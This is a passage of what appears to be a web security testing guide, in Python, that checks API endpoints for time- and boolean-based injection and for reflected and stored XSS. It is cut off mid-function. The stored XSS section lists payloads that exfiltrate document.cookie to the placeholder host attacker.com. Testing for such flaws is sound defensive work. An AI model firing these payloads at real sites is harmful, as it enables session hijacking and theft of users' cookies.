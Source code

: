 ```python
        )
        response_time = time.time() - start_time
        
        # Check for time-based injection
        if response_time > 5:
            vulnerable_endpoints.append("time_based_injection")
        
        # Check for boolean-based injection
        if response.status_code == 200 and len(response.text) > 0:
            vulnerable_endpoints.append("boolean_based_injection")
    
    return vulnerable_endpoints
```

### **XSS Attack Examples**

#### **Reflected XSS Test**
```python
def test_reflected_xss():
    """Test reflected XSS attacks"""
    payloads = [
        "<script>alert('XSS')</script>",
        "<img src=x onerror=alert('XSS')>",
        "<svg onload=alert('XSS')>",
        "javascript:alert('XSS')"
    ]
    
    endpoints = [
        "/api/comment",
        "/api/message",
        "/api/profile"
    ]
    
    vulnerable_endpoints = []
    
    for endpoint in endpoints:
        for payload in payloads:
            response = session.post(
                f"{base_url}{endpoint}",
                json={"content": payload, "message": payload}
            )
            
            # Check if payload is reflected in response
            if payload in response.text:
                vulnerable_endpoints.append(endpoint)
                break
    
    return vulnerable_endpoints
```

#### **Stored XSS Test**
```python
def test_stored_xss():
    """Test stored XSS attacks"""
    payloads = [
        "<script>fetch('http://attacker.com/steal?cookie='+document.cookie)</script>",
        "<script>new Image().src='http://attacker.com/steal?cookie='+document.cookie;</script>"
    ]
    
    endpoints = [
        "/api/comment",
        "/api/message",
        "/api/forum/post"
```
